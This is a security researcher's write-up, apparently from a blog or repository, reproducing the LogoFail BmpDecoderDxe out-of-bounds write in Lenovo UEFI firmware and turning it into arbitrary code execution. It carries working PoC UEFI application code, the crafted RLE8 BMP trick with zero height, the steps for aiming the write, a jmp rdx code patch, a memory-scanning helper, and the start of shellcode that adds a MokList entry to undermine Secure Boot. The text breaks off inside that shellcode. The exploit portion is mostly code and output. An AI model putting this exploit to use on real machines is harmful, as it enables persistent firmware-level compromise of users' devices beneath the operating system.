

# LogoFail: From POC to arbitrary code execution [BRLY-LOGOFAIL-2023-002]

# **Disclaimer**

This article/repository is intended solely for educational/ethical purposes and should not be used for any malicious activities. 
There's no way responsible to any misuse.

# Vulnerability Introduction

Among the various vulnerabilities disclosed in LogoFail, I will attempt to reproduce the **[BRLY-LOGOFAIL-2023-002]** vulnerability.

[https://github.com/binarly-io/Vulnerability-REsearch/blob/main/LogoFAIL/BRLY-LOGOFAIL-2023-002.md](https://github.com/binarly-io/Vulnerability-REsearch/blob/main/LogoFAIL/BRLY-LOGOFAIL-2023-002.md)

As can be seen by looking closely at the above link,

there is a vulnerability in the **BmpDecoderDxe** driver where, during the parsing of a logo image file with the BMP extension, an out-of-bounds write can occur.

An attacker with local access privileges can exploit this to escalate privileges and gain control over the DXE driver from either user mode (Ring 3) or kernel mode (Ring 0), allowing arbitrary code execution.

Regarding how to exploit it,

```c
BltEntry = &BltOutput[PixelWidth * (PixelHeight - i - 1)];
```

As can be seen in the pseudo code, when the attacker-controlled BmpHeader->PixelHeight value is 0, the BltEntry pointer ends up located below the BltOutput pointer.

Therefore, through subsequent write operations, the attacker can write data to the physical memory below the BltOutput address.
This vulnerability can be exploited to execute arbitrary code during the DXE phase.

# Load BmpDecoderDxe driver into QEMU to reproduce a Proof of Concept (PoC)

## Obtaining an old version of UEFI firmware that is vulnerable to LogoFail

First, let's look at one of the Lenovo models Jihun purchased. 
The model is the IdeaPad Slim 3 15IAH8, 
and the firmware version is LTCN25WW.


Jihun said that the version was originally higher when he bought it, but he downgraded it.

https://pcsupport.lenovo.com/kr/ko/products/laptops-and-netbooks/ideapad-s-series-netbooks/ideapad-slim-3-15iah8/downloads/driver-list/component?name=BIOS&id=5AC6A815-321D-440E-8833-B07A93E0428C

There is a site where you can download the latest version of the BIOS firmware image file from the link above.


If you look at the download path using Chrome's developer tools, it's shown in detail. 
By changing only the number 32 in `ltcn32ww.exe` and gradually lowering it, you can download older versions of the firmware.


## Extracting BmpDecoderDxe from UEFI firmware

There are several methods for extraction, including using tools like [UEFITool](https://github.com/LongSoft/UEFITool/releases), [efiXplorer](https://github.com/binarly-io/efiXplorer), and [binwalk](https://github.com/ReFirmLabs/binwalk). 

For this process, we'll use UEFITool.

1. Open the .exe file with [Bandizip](https://en.bandisoft.com/bandizip/) and extract the file with the **.fd** extension.
    
    
    

1. Drag and drop the **.fd** file into UEFITool.
2. Search for **BmpDecoderDxe**.


1. Extract BmpDecoderDxe using the **Extract as is…** menu option.
    
    
    
2. Delete the data located at the beginning of the **MZ header**.
    
    
    

## Forcibly load vulnerable **BmpDecoderDxe** driver in the UEFI Shell

First, if you load the vulnerable driver in the shell, 
it will freeze as if it's caught in an infinite loop 
and won't complete.


ACPI: PM-Timer IO Port: 0x1808
"On Linux a simple dmesg will give you a pretty big hint: ACPI: PM-Timer IO Port: 0x1808."
[https://www.synacktiv.com/publications/a-journey-in-reversing-uefi-lenovo-passwords-management](https://www.synacktiv.com/publications/a-journey-in-reversing-uefi-lenovo-passwords-management)

After searching, it appears to be the **ACPI: PM-Timer IO Port**.

In QEMU, the PM-Timer IO Port showed up as **0x608**, 
so I thought modifying it and applying a binary patch would work, but...


Unfortunately, it wasn't resolved.

Thinking that the code wasn't that important 

I eventually patched

.text:000000000000046C                 jb      short loc_475

the branch instruction

.text:000000000000046C                 jmp     short loc_475
with this jmp instruction to exit the loop.

Now, let's put the patched EFI file into **hda-contents** and run it with QEMU.

qemu-system-x86_64 -s -pflash ./OVMF.fd -hda fat:rw:hda-contents -net none -debugcon file:debug.log -global isa-debugcon.iobase=0x403


Now, when you load the driver module in the shell,
it exits the loop and indicates a successful load, as shown above.

## Creating a UEFI app that can communicate with driver

As an example, before sending input to the vulnerable driver, let's try creating some driver and application code.

Referenced article:

https://bob-mcd-team.gitbook.io/uefi/uefi-development/driver-library/34.simple-uefi-driver

- SimpleDriver.c driver code:
    
    ```jsx
    #include <Library/UefiBootServicesTableLib.h>
    #include <Library/UefiLib.h>
    
    #include <Library/MemoryAllocationLib.h>
    
    // Define the protocol GUID
    #define MY_PROTOCOL_GUID \
        { 0xabcd1234, 0x5678, 0x9abc, { 0xde, 0xf0, 0x12, 0x34, 0x56, 0x78, 0x90, 0xab } }
    
    typedef struct {
        VOID (*MyFunction)(VOID);
    } MY_PROTOCOL;
    
    EFI_GUID gMyProtocolGuid = MY_PROTOCOL_GUID;
    
    VOID MyFunctionImplementation(VOID) {
        Print(L"MyFunction is called!\n");
    }
    
    EFI_HANDLE gMyHandle = NULL;
    
    MY_PROTOCOL *MyProtocol;
    
    EFI_STATUS
    EFIAPI
    SimpleDriverEntryPoint (
      IN EFI_HANDLE        ImageHandle,
      IN EFI_SYSTEM_TABLE  *SystemTable
      )
    {
      Print(L"Hello from driver!\n");
    
      EFI_STATUS Status;
      
    
      // Allocate memory for the protocol structure
      MyProtocol = AllocatePool(sizeof(MY_PROTOCOL));
      if (MyProtocol == NULL) {
          return EFI_OUT_OF_RESOURCES;
      }
    
      // Set the protocol's function pointers
      MyProtocol->MyFunction = MyFunctionImplementation;
    
      // Install the protocol
      Status = gBS->InstallProtocolInterface(
          &gMyHandle,
          &gMyProtocolGuid,
          EFI_NATIVE_INTERFACE,
          MyProtocol
      );
      if (EFI_ERROR(Status)) {
          FreePool(MyProtocol);  // Free memory upon installation failure
          return Status;
      }
    
      Print(L"MyProtocol installed successfully!\n");
    
      return EFI_SUCCESS;
    }
    
    EFI_STATUS
    EFIAPI
    SimpleDriverUnload (
      EFI_HANDLE ImageHandle
      )
    {
      Print(L"Bye-bye from driver!\n");
    
      // Uninstall the protocol
      EFI_STATUS Status = gBS->UninstallProtocolInterface(
          gMyHandle,
          &gMyProtocolGuid,
          NULL // may need to change it to pass the MyProtocol pointer instead of NULL.
      );
    
      if (EFI_ERROR(Status)) {
          Print(L"Failed to uninstall protocol: %r, gMyHandle: %p\n", Status, gMyHandle);
          return Status;
      }
    
      FreePool((MY_PROTOCOL *)MyProtocol); // Free memory (MyProtocol ptr must be kept as a global variable)
    
      return EFI_SUCCESS;
    }
    
    ```
    
- SimpleApp.c UEFI app code:
    
    ```jsx
    /*
     * Copyright (c) 2021, Konstantin Aladyshev <aladyshev22@gmail.com>
     *
     * SPDX-License-Identifier: MIT
     */
    
    #include <Uefi.h>
    #include <Library/UefiBootServicesTableLib.h>
    #include <Library/UefiLib.h>
    #include <Library/MemoryAllocationLib.h>
    
    // Define the protocol GUID
    #define MY_PROTOCOL_GUID \
        { 0xabcd1234, 0x5678, 0x9abc, { 0xde, 0xf0, 0x12, 0x34, 0x56, 0x78, 0x90, 0xab } }
    
    typedef struct {
        VOID (*MyFunction)(VOID);
    } MY_PROTOCOL;
    
    EFI_GUID gMyProtocolGuid = MY_PROTOCOL_GUID;
    
    EFI_STATUS
    EFIAPI
    UefiMain (
      IN EFI_HANDLE        ImageHandle,
      IN EFI_SYSTEM_TABLE  *SystemTable
      )
    {
      EFI_STATUS Status;
      UINTN HandleCount;
      EFI_HANDLE *HandleBuffer;
      MY_PROTOCOL *MyProtocol = NULL;
    
      Status = gBS->LocateHandleBuffer (
                      ByProtocol,
                      &gMyProtocolGuid,
                      NULL,
                      &HandleCount,
                      &HandleBuffer
                      );
      if (EFI_ERROR (Status)) {
        Print(L"Error! Can't find any handle with gMyProtocolGuid: %r\n", Status);
        return Status;
      }
    
      Print(L"Found %d handles with MyProtocol\n", HandleCount);
    
        // Search for MyProtocol on the first handle among the found handles
        Status = gBS->HandleProtocol(HandleBuffer[0], &gMyProtocolGuid, (VOID**)&MyProtocol);
        if (EFI_ERROR(Status)) {
            Print(L"Failed to get protocol interface: %r\n", Status);
            FreePool(HandleBuffer);
            return Status;
        }
    
        // Call protocol's MyFunction
        if (MyProtocol != NULL && MyProtocol->MyFunction != NULL) {
            MyProtocol->MyFunction();  // Print "MyFunction is called!"
        } else {
            Print(L"MyProtocol or MyFunction is NULL\n");
        }
    
        // Free the handle buffer memory
        if(HandleBuffer != NULL)
          FreePool(HandleBuffer);
    
      return Status;
    }
    
    ```
    


Now, when you run the UEFI app **SimpleApp.efi**, 
the **MyFunction** function in the driver is called.

## Reproducing the PoC (Proof of Concept)

### Creating a BMP file with **biCompression** set to 1


Looking at the [vulnerability description link](https://github.com/binarly-io/Vulnerability-REsearch/blob/main/LogoFAIL/BRLY-LOGOFAIL-2023-002.md), 
the `DecodeRLE8` function can be called when the `CompressionType` is 1. 

Therefore, let's try to create a BMP file with this format.

First, create a new image file in Photoshop CS6. 

Then, from the top menu, change the mode to Grayscale by selecting **Image** → **Mode** → **Grayscale**.


When saving the file, change the extension to **.bmp** and save. 


A BMP options window will then appear.

If you configure it as shown below,


you can create a BMP file with **biCompression** set to 1, 
which you can verify using [**010 Editor**](https://www.sweetscape.com/010editor/).


### Open the BMP file and modify the **PixelHeight** to 0


According to the [vulnerability description link](https://github.com/binarly-io/Vulnerability-REsearch/blob/main/LogoFAIL/BRLY-LOGOFAIL-2023-002.md), 
since the vulnerability can be triggered when BmpHeader->PixelHeight is 0, it needs to be fixed.

Simply put, you can fix it by changing the biHeight value to 0 using 010 Editor.


### Automatically load BmpDecoderDxe driver every time QEMU boots

When you type exit in the UEFI Shell, you can enter UEFI firmware settings screen as shown below.


In Boot Maintenance Manager > Driver Options > Add Driver Option > Add Driver Option Using File, 
select the ESP partition and then choose the driver you want to load automatically.


After selecting, fill in the contents of Input the description (with anything), 
and then Commit Changes and Exit.


Go into Change Driver Order, check if the driver to be loaded automatically now exists, 
and then save to be done.


Now restart QEMU,

```bash
dh -d -v
```

If you check the loaded drivers in the UEFI shell, 
you can see that it has been loaded automatically.


### Prepare for writing and debugging UEFI app that communicates with the BmpDecoderDxe driver

Load the efiXplorer plugin in IDA Pro 
and check the ModuleEntryPoint function, which is the initial entry point.


The GUID of the protocol installed through the `InstallProtocolInterface` function is as follows.


<aside>
💡

A6396A81-8031-4FD7-BD14-2E6BFBEC83C2

</aside>

The InstallProtocolInterface function connects a protocol to a specific handle. 
This function is mainly used when a UEFI driver provides certain functionality to other drivers or applications.

So, if you know this GUID value, 
you can easily create a UEFI app that communicates with the driver.

Now, let's write the code that communicates with vulnerabile driver.


To know what functions the driver performs through the handle,
you should look into gEfiBmpDecoderProtocol.

Before examining, let's perform a rebase in IDA Pro. 
This is a necessary step for easy dynamic debugging in IDA Pro.

Previously, when checking the ImageBase of the BmpDecoderDxe.efi driver using dh -d -v, 
it showed 0x67E4000. (*Note: The driver base address remains fixed even after rebooting.)


In IDA Pro, go to the top menu Edit > Segments… > Rebase program…


Change the Value to 0x67E4000 as shown above, and then click OK.


Looking into gEfiBmpDecoderProtocol, it points to a function called sub_67E4489.


Set a breakpoint here, 
and now let's write the UEFI app code.

The code below is a slightly modified version of the SimpleDriver.C source code, 
allowing you to call the sub_67E4498 function in the driver 
with up to 13 parameters.

The parameter values were set sequentially as 0x4141414141414141, 0x4242424242424242, 
and so on.

- PoCApp.c
    
    ```c
    #include <Uefi.h>
    #include <Library/UefiBootServicesTableLib.h>
    #include <Library/UefiLib.h>
    #include <Library/MemoryAllocationLib.h>
    
    typedef signed long long __int64 ;
    
    //A6396A81-8031-4FD7-BD14-2E6BFBEC83C2	EFI_BMP_DECODER_PROTOCOL_GUID	InstallProtocolInterface	Current
    #define EFI_BMP_DECODER_PROTOCOL_GUID \
        { 0xA6396A81, 0x8031, 0x4FD7, { 0xbd, 0x14, 0x2e, 0x6B, 0xFB, 0xEC, 0x83, 0xC2 } }
    
    typedef struct {
        __int64 (*sub_67E4498)(__int64 a1, __int64 a2, __int64 a3, __int64 a4, __int64 a5, __int64 a6, __int64 a7, __int64 a8, __int64 a9, __int64 a10, __int64 a11, __int64 a12, __int64 a13);
    } MY_PROTOCOL;
    
    EFI_GUID gEFI_BMP_DECODER_PROTOCOL_GUID = EFI_BMP_DECODER_PROTOCOL_GUID;
    
    EFI_STATUS
    EFIAPI
    UefiMain (
      IN EFI_HANDLE        ImageHandle,
      IN EFI_SYSTEM_TABLE  *SystemTable
      )
    {
      EFI_STATUS Status;
      UINTN HandleCount;
      EFI_HANDLE *HandleBuffer;
      MY_PROTOCOL *MyProtocol = NULL;
    
      Status = gBS->LocateHandleBuffer (
                      ByProtocol,
                      &gEFI_BMP_DECODER_PROTOCOL_GUID,
                      NULL,
                      &HandleCount,
                      &HandleBuffer
                      );
      if (EFI_ERROR (Status)) {
        Print(L"Error! Can't find any handle with gEFI_BMP_DECODER_PROTOCOL_GUID: %r\n", Status);
        return Status;
      }
    
      Print(L"Found %d handles with MyProtocol\n", HandleCount);
    
        // Search for MyProtocol on the first handle among the found handles.
        Status = gBS->HandleProtocol(HandleBuffer[0], &gEFI_BMP_DECODER_PROTOCOL_GUID, (VOID**)&MyProtocol);
        if (EFI_ERROR(Status)) {
            Print(L"Failed to get protocol interface: %r\n", Status);
            FreePool(HandleBuffer);
            return Status;
        }
    
        if (MyProtocol != NULL && MyProtocol->sub_67E4498 != NULL) {
    
            MyProtocol->sub_67E4498(0x4141414141414141, 0x4242424242424242, 0x4343434343434343, 0x4444444444444444, 0x4545454545454545, 0x4646464646464646, 0x4747474747474747, 0x4848484848484848, 0x4949494949494949, 0x5050505050505050, 0x5151515151515151, 0x5252525252525252, 0x5353535353535353);
    
        } else {
            Print(L"MyProtocol or sub_67E4498 is NULL\n");
        }
    
        if(HandleBuffer != NULL)
          FreePool(HandleBuffer);
    
      return Status;
    }
    
    ```
    

Now, when you run it,


As shown above, the RIP is stopped at the address where the breakpoint was set.

(Breakpoint set successfully)

### What kind of input should be given?

Looking into the function where the breakpoint was set, 
it calls the DecodeBMP function again.


Set a breakpoint on the DecodeBMP function, 
and when checking the parameter values of that function, 
they were as follows.


For the Image parameter → BMP file data must be provided, and 

For ImageSize parameter → it must be at least 0x36

to allow calling the vulnerable DecodeRLE8 function with the OOB write vulnerability.

### Try inputting with BMP file data

To convert BMP file data with PixelHeight set to 0 into a C header file, 
you can use 010 Editor.

There is a File > Export Hex function in the top menu.


The generated cpp file was renamed to payload.h, 
and the variable name was also changed to bmp_payload.

Now, 
since we know which parameter goes into the DecodeBMP function, 
I rewrote the PoCApp.c code as shown below.

- PoCApp.c
    
    
    ```c
    #include <Uefi.h>
    #include <Library/UefiBootServicesTableLib.h>
    #include <Library/UefiLib.h>
    #include <Library/MemoryAllocationLib.h>
    #include "payload.h"
    
    typedef signed long long __int64 ;
    
    //A6396A81-8031-4FD7-BD14-2E6BFBEC83C2	EFI_BMP_DECODER_PROTOCOL_GUID	InstallProtocolInterface	Current
    #define EFI_BMP_DECODER_PROTOCOL_GUID \
        { 0xA6396A81, 0x8031, 0x4FD7, { 0xbd, 0x14, 0x2e, 0x6B, 0xFB, 0xEC, 0x83, 0xC2 } }
    
    typedef struct {
        __int64 (*sub_67E4498)(__int64 a1, __int64 a2, __int64 a3, __int64 a4, __int64 a5);
    } MY_PROTOCOL;
    
    EFI_GUID gEFI_BMP_DECODER_PROTOCOL_GUID = EFI_BMP_DECODER_PROTOCOL_GUID;
    
    EFI_STATUS
    EFIAPI
    UefiMain (
      IN EFI_HANDLE        ImageHandle,
      IN EFI_SYSTEM_TABLE  *SystemTable
      )
    {
      EFI_STATUS Status;
      UINTN HandleCount;
      EFI_HANDLE *HandleBuffer;
      MY_PROTOCOL *MyProtocol = NULL;
    
      Status = gBS->LocateHandleBuffer (
                      ByProtocol,
                      &gEFI_BMP_DECODER_PROTOCOL_GUID,
                      NULL,
                      &HandleCount,
                      &HandleBuffer
                      );
      if (EFI_ERROR (Status)) {
        Print(L"Error! Can't find any handle with gEFI_BMP_DECODER_PROTOCOL_GUID: %r\n", Status);
        return Status;
      }
    
      Print(L"Found %d handles with MyProtocol\n", HandleCount);
    
        // Search for MyProtocol on the first handle among the found handles.
        Status = gBS->HandleProtocol(HandleBuffer[0], &gEFI_BMP_DECODER_PROTOCOL_GUID, (VOID**)&MyProtocol);
        if (EFI_ERROR(Status)) {
            Print(L"Failed to get protocol interface: %r\n", Status);
            FreePool(HandleBuffer);
            return Status;
        }
    
        if (MyProtocol != NULL && MyProtocol->sub_67E4498 != NULL) {
            **void *my_bmp = (void*)bmp_payload;**
            MyProtocol->sub_67E4498(0, 0, (__int64)my_bmp, 0, 0x36);
    
        } else {
            Print(L"MyProtocol or sub_67E4498 is NULL\n");
        }
    
        if(HandleBuffer != NULL)
          FreePool(HandleBuffer);
    
      return Status;
    }
    
    ```
    

### OOB Write

To clearly see the OOB Write in the bmp file, 
you need to set the PixelWidth (biWidth) value to the maximum, 0xFFFFFFFF.

Then, rebuild the PoCApp and
set a breakpoint at the address where the write occurs (e.g., 67E47AE).


As you can see, 
the r8 register value goes out of range to FFFFFFFC06AAD69C.

# Turning the PoC code into a meaningful exploit

## How is the r8 register value, which represents the target address to be written to, generated?


Since the address to be written to is FFFFFFFC06AAD69C, it does not proceed further and instead causes a panic in QEMU, stopping execution.

Let's debug and examine how it attempts to write to the address FFFFFFFC06AAD69C.


When stopped at the previous step at address 00000000067E4781,


The register values are as follows.


imul    rax, rbx
→ rax = rax * rbx
→ rax = 0xFFFFFFFFFFFFFFFF * 0xFFFFFFFF

> hex((0xFFFFFFFFFFFFFFFF * 0xFFFFFFFF) & 0xFFFFFFFFFFFFFFFF)
'0xffffffff00000001'
> 

The rax value is 0xffffffff00000001.

Looking a little further back,


Here, since the rax register, which represents BmpHeader->PixelHeight, 
subtracts the loop initial value v4 (= Height) which is 0, 
so the rax value remains 0.

```nasm
.text:00000000067E4778 49 2B C3    sub     rax, r11
```

It decrements rax by 1,

```nasm
.text:00000000067E477B 48 FF C8    dec     rax
```

Subtracting 1 from 0 causes an underflow, 
resulting in 0xFFFFFFFFFFFFFFFF.

Therefore, before the imul operation, the value 0xFFFFFFFFFFFFFFFF appears in rax.

It can be seen as similar to the code below.

```c
Blt = &BltBuffer[(BmpHeader->PixelHeight - Height - 1) * BmpHeader->PixelWidth];
```

Let's move on to the next step at address 0x67E4788.


r8 = r12 + rax * 4
→ 0x6AAD698 + 0xFFFFFFFF00000001 * 4

> hex((0x6AAD698 + 0xFFFFFFFF00000001 * 4) & 0xFFFFFFFFFFFFFFFF)
'0xfffffffc06aad69c'
> 

The r8 value 0xfffffffc06aad69c appeared!

## How is the r12 value generated here?

It represents BltBuffer and is set to the DecodedData address by the H2OImageDecoderLibAllocateMem function.

```c
IsAllocated   = FALSE;
  if (*DecodedData == NULL) {
    *DecodedDataSize = (UINTN) BltBufferSize;
    *DecodedData     = H2OImageDecoderLibAllocateMem (*DecodedDataSize);
    IsAllocated = TRUE;
    if (*DecodedData == NULL) {
      return EFI_OUT_OF_RESOURCES;
    }
  } else {
    if (*DecodedDataSize < (UINTN) BltBufferSize) {
      *DecodedDataSize = (UINTN) BltBufferSize;

      return EFI_BUFFER_TOO_SMALL;
    }
  }

  *Width   = BmpHeader->PixelWidth;
  *Height  = BmpHeader->PixelHeight;
  //
  // Convert image from BMP to Blt buffer format
  //
  BltBuffer = (EFI_GRAPHICS_OUTPUT_BLT_PIXEL *) *DecodedData;
  //
  // RLE8 decode.
  //
  if (BmpHeader->CompressionType == BMP_RLE8BIT_TYPE) {
    SetMem (BltBuffer, (UINTN)BltBufferSize, 0x00);
    RLE8ToBlt (BltBuffer, Image, BmpColorMap, BmpHeader);
    return EFI_SUCCESS;
  }
```

### Presumed original code

```c
EFI_STATUS
RLE8ToBlt (
  EFI_GRAPHICS_OUTPUT_BLT_PIXEL *BltBuffer,
  UINT8                         *RLE8Image,
  BMP_COLOR_MAP                 *BmpColorMap,
  BMP_IMAGE_HEADER              *BmpHeader
  )
{
  UINT8         FirstByte;
  UINT8         SecondByte;
  UINT8         EachValue;
  UINTN         Index;
  UINTN         Height;
  UINTN         Width;
  BOOLEAN       EndOfLine;
  BOOLEAN       EndOfBMP;
  EFI_GRAPHICS_OUTPUT_BLT_PIXEL *Blt;

  EndOfLine = FALSE;
  EndOfBMP = FALSE;
  Height = 0;

  while (Height <= BmpHeader->PixelHeight && EndOfBMP == FALSE) {

    Blt = &BltBuffer[(BmpHeader->PixelHeight - Height - 1) * BmpHeader->PixelWidth];
    Width = 0;
    EndOfLine = FALSE;

    while (Width <= BmpHeader->PixelWidth && EndOfLine == FALSE) {

      FirstByte = *RLE8Image;
      RLE8Image++;
      SecondByte = *RLE8Image;
      RLE8Image++;

      if (FirstByte > ABSOLUTE_MODE_FLAG) {
        for (Index = 0; Index < FirstByte; Index++, Width++, Blt++) {
          Blt->Red    = BmpColorMap[SecondByte].Red;
          Blt->Green  = BmpColorMap[SecondByte].Green;
          Blt->Blue   = BmpColorMap[SecondByte].Blue;
        }
      }
      else {
        switch (SecondByte) {

        case ENCODE_MODE_END_OF_LINE:
          EndOfLine = TRUE;
        break;

        case ENCODE_MODE_END_OF_BITMAP:
          EndOfBMP = TRUE;
          EndOfLine = TRUE;
        break;

        case ENCODE_MODE_DELTA:
          FirstByte = *RLE8Image;
          RLE8Image++;
	  SecondByte= *RLE8Image;
          RLE8Image++;
          Width = Width + FirstByte;
          Height = Height + SecondByte;
          Blt = &BltBuffer[((BmpHeader->PixelHeight - Height - 1) * BmpHeader->PixelWidth) + (Width)];
        break;

        default:
          //
          // Absolute mode.
          //
	  for (Index = 0; Index < SecondByte; Index++, Width++, Blt++) {
            EachValue = *RLE8Image;
            RLE8Image++;
            Blt->Red    = BmpColorMap[EachValue].Red;
            Blt->Green  = BmpColorMap[EachValue].Green;
            Blt->Blue   = BmpColorMap[EachValue].Blue;
	  }
          //
          // align on word boundary
          //
          if (Index % 2 == 1)
	    RLE8Image++;
        break;
        }
      }
    }
    Height++;
  }
  return EFI_SUCCESS;
}
```

## Maximize loop iterations to make r8 value fall within the range of 0~0x100000 instead of 0xFFFFF…

During manual debugging, I repeatedly prevented writes to the r8 address to keep the loop running and debugged multiple times.

As a result, by inputting values 0x00, 0x02, 0x00, and 0xFF about 4,210,751 times, 
I kept the loop running while decreasing the r8 value, setting the target write address to 0x907F8.


### Control the write value to trigger shellcode execution


The written values are based on the BmpColorMap.


Therefore, by patching the write address with 0xFF 0xE2 0x90 (jmp rdx, nop) as shown above, 
when the loop ends, it jumps to rdx, allowing execution of the shellcode in the bmp payload.

- Daily report/diary (2024.10.11)
    
    On an actual Lenovo laptop, I successfully reproduced the OOB WRITE to overwrite **desired values at desired addresses**.
    
    While QEMU allows writing 3 bytes to 4-byte aligned addresses, in the real laptop environment, the target address differs by about -1.
    
    
    
    This OOB Write vulnerability allowed arbitrary shellcode execution.
    
    
    
    The .text segment is RWX, and since the loaded driver base address is fixed at a constant value on every boot, you can easily patch desired instructions at desired addresses.
    
    As seen at address 0x67E5824 in QEMU, patching with the 2-byte jmp rdx instruction allows jumping to the shellcode in the bmp payload.
    
    
    
    The above image shows a jump to the Nop sled shellcode via jmp rdx.
    


## Triggering on a real device

### Running PoCApp in the UEFI shell environment on a real device

To launch the UEFI shell, disable Secure Boot, download shellx64.efi from [https://github.com/pbatard/UEFI-Shell/releases](https://github.com/pbatard/UEFI-Shell/releases), 
and place it on a USB at /EFI/BOOT/BOOTX64.efi.

On a real device, after launching the shell, 
use the command dh -d -v to check loaded driver addresses.

The loaded BmpDecoderDxe driver address is 3D9BF000.

```nasm
3D: ImageDevicePath(38037018)   MemoryMapped(0xB,0x39A62080,0x3B29F07F)/FvFile(A9F634A5-29F1-4456-A9D5-6E24B88BDB65) LoadedImage(3803A440)   Name..........: BmpDecoderDxe
  Revision......: 0x00001000
  ParentHandle..: 3BC3EF98
  SystemTable...: 3EADE018
  DeviceHandle..: 399BE898
  FilePath......: FvFile(A9F634A5-29F1-4456-A9D5-6E24B88BDB65)
  PdbFileName...: <null string>
  OptionsSize...: 0
  LoadOptions...: 0
  ImageBase.....: 3D9BF000
  ImageSize.....: 1160
  CodeType......: EfiBootServicesCode
  DataType......: EfiBootServicesData
  Unload........: 0 
```

By controlling the write address precisely, 
shellcode execution can be triggered on a real device.

So far, we have created PoCApp, an app that communicates with the vulnerable BmpDecoderDxe driver.

We also successfully ran the shellcode on a real device's UEFI shell, displaying the "PWNED" text.

- Daily report/diary (2024.10.14)
    
    Successfully changed the boot logo on a real device.
    
    
    
    Successfully jumped to shellcode from the vulnerable driver on a real device, achieving arbitrary code execution (PWNED).
    
    
    

### Changing the boot logo

Examining the sub_44EC function in the OemBadgingSupportDxe driver, 
It was found that manipulating the LBLDESP and LBLDVC values in NVRAM allows displaying a custom boot logo.


Also, before changing the boot logo, you need to check the sub_43EC function.
The SHA256 hash of the boot image file must be stored in the LVLDVC variable.


Then, you can change the boot image as shown below.


Code for changing the boot logo in Windows (sha256, crc32):

[https://gist.github.com/wh1te4ever/374a34947eadcfb28d5718abdb3d3112](https://gist.github.com/wh1te4ever/374a34947eadcfb28d5718abdb3d3112)

Code for changing the boot logo in Linux (sha256):

[https://gist.github.com/wh1te4ever/c4129f22dd545a32d8496c7254437d15](https://gist.github.com/wh1te4ever/c4129f22dd545a32d8496c7254437d15)

## Exploit

Now, let's find the part where memory corruption occurs.

### CorruptionFinder.c

```c

#include <Uefi.h>
#include <Library/UefiBootServicesTableLib.h>
#include <Library/UefiLib.h>
#include <Library/MemoryAllocationLib.h>

// Define the search pattern (8 bytes).
const UINT8 PATTERN[3] = { 0xFF, 0xE2, 0x90 };

// Check if the pattern matches at a specific memory address.
BOOLEAN IsPatternMatch(UINT8 *Address) {
    for (UINTN i = 0; i < sizeof(PATTERN); i++) {
        if (Address[i] != PATTERN[i]) {
            return FALSE;
        }
    }
    return TRUE;
}

EFI_STATUS
EFIAPI
UefiMain (
  IN EFI_HANDLE        ImageHandle,
  IN EFI_SYSTEM_TABLE  *SystemTable
  )
{
  EFI_STATUS Status = EFI_SUCCESS;
  UINT8 *Address = NULL;

  Print(L"Searching mem point...\n");

  // Traverse memory from 0 to 0x7FFFFFFFFF.
    for (UINTN i = 0x30000000; i <= 0x7FFFFFFFFF; i++) {
        Address = (UINT8 *)i;

        if(i % 100000000 == 0) {
          Print(L"Continung... current mem: 0x%p\n", Address);
        }


        if (IsPatternMatch(Address)) {
            Print(L"Pattern found at address: 0x%p\n", Address);
        }
    }

  Print(L"Search completed.\n");

  return Status;
}

```

- Daily report/diary (2024.10.23)
    
    By searching for the BKT string written via OOB write, 
    I found the address where corruption occurs.
    
    Since the write address and value are controllable, 
    and the corruption happens below the vulnerable BmpDecoderDxe driver’s base address, 
    it may be possible to patch it with opcodes that lead to shellcode execution.
    


Identify the address where corruption occurs, adjust the address properly, and insert shellcode that registers the MokList.

```c
/* restore DecodeRLE8's opcode */
    0x41, 0xC7, 0x40, 0xF4, 0x48, 0xFF, 0xC2, 0xEB, /* mov dword ptr [r8-12], 0xEBC2FF48 */
    0x41, 0xC7, 0x40, 0xF8, 0x36, 0x0F, 0xB6, 0x02, /* mov dword ptr [r8-8], 0x2B60F36 */
    0x41, 0xC7, 0x40, 0xFC, 0x48, 0x8D, 0x56, 0x02, /* mov dword ptr [r8-4], 0x2568D48 */
    	
    	/*shell code start*/
    0x4d, 0x8b, 0xb8, 0x48, 0x07, 0x00, 0x00, 0x90, /*mov r15, qword ptr [r8 + 0x748],  nop ... set gST to r15 / nop*/
    0x41, 0xB9, 0xb3, 0x03, 0x00, 0x00, 0x90, 0x90, /* mov     r9d, 3b3h (set arg3 for call, mokList data length) /  nop2 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /*  nop8 */
    0x41, 0xB8, 0x03, 0x00, 0x00, 0x00, 0x90, 0x90, /* mov     r8d, 3 (set arg2 for call, EFI_VARIABLE_NON_VOLATILE | EFI_VARIABLE_BOOTSERVICE_ACCESS) / nop2 */ 
